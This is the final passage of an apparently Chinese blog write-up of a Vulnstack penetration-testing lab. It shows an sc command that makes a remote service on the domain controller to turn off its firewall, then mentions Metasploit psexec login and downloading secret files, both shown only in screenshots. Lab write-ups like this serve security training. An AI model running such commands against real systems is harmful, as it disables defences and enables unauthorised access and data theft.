 ![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvlcicoz3XruS8BGgER95dSvg7dym4icRH8eeaeVeChdRQPdFian3iaWxEr1w/640?wx_fmt=png)image-20210204204420301

然后执行如下命令，使用 sc 远程在域制器（192.168.93.10）上创建服务关闭防火墙：

```
sc \\192.168.93.10 create unablefirewall binpath= "netsh advfirewall set allprofiles state off"sc \\192.168.93.10 start unablefirewall
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvlPmEOZSow8HW7McNXBdxcWBmwMRGaIypAHQYicKJ53Idsqw7c8ZOK8kw/640?wx_fmt=png)image-20210204204955511

再次尝试使用 exploit/windows/smb/psexec 模块登录即可成功：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvlkGDX1gQtkcjF5g2zAuMQy9pJHmxL82yHUI4x7QWAqViapBVFI83l6SA/640?wx_fmt=png)image-20210204205515224

下载机密文件：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvlrZpdEKe6Xb8vCwIYldIvZCPc2U8kTCJzuBwmuZNGxkaibbtMfaEdZBw/640?wx_fmt=png)image-20210204211126685

至此，整个靶场渗透结束：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvl4PC1jmoxorc1tWSpV4Uv0LnBZ2rKkVI9AiaHc7rAPvG8ldFBm6T782Q/640?wx_fmt=png)image-20210204210510255

Ending......
------------

本次靶场难度适中，总最开始的信息收集到漏洞利用，最终到拿下域控之间总共花了我大约一天的时间。

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

**推荐阅读：**

**[实战 ｜ 记一次基础的内网 Vulnstack 靶机渗透（一](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247494583&idx=1&sn=efc4e9afc9689575f17e57f5967f7ea0&chksm=ec1cbe88db6b379e618f3da0a4fa97658e1f7b024e5fda48296a3136bac55ded3201ce331870&scene=21#wechat_redirect)）**

**[记一次内网渗透](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247494593&idx=1&sn=3db21291cd7217c6551b7bc51e8d3bbf&chksm=ec1cbefedb6b37e8bf129a75f29af46862255ddf944fc5067d4dbfcbded5fb33c121c1165fc1&scene=21#wechat_redirect)**[Vulnstack 靶场内网渗透](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247494581&idx=1&sn=948d8cb4120b78e1b7cc4094b13f8c6a&chksm=ec1cbe8adb6b379c6f90a39976c9b88c9edb36a061e8478317fac49169b35b7b5f78f2f9c0d7&scene=21#wechat_redirect)******（二）  
**

**[实战 ｜ 记一次 Vulnstack 靶场内网渗透（三）](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247494581&idx=1&sn=948d8cb4120b78e1b7cc4094b13f8c6a&chksm=ec1cbe8adb6b379c6f90a39976c9b88c9edb36a061e8478317fac49169b35b7b5f78f2f9c0d7&scene=21#wechat_redirect)  
**

**[实战记录 ｜ 自主搭建的三层网络域渗透靶场](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247494324&idx=1&sn=b037dc2ecca8a8fb2046521839bc64bf&chksm=ec1cbf8bdb6b369de5874b1f3d9c6a8e30d059c1b4cdcc13af8f9bdf78584adb21463bba4413&scene=21#wechat_redirect)  
**

[**记一次详细的内网渗透过程**](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247492578&idx=1&sn=1c18efd45d947d44522ab199d258909e&chksm=ec1cb6dddb6b3fcb3106221e4a67ddccf6f146c99afb33000e5595739f81ec0b91804e4b2da7&scene=21#wechat_redirect)  
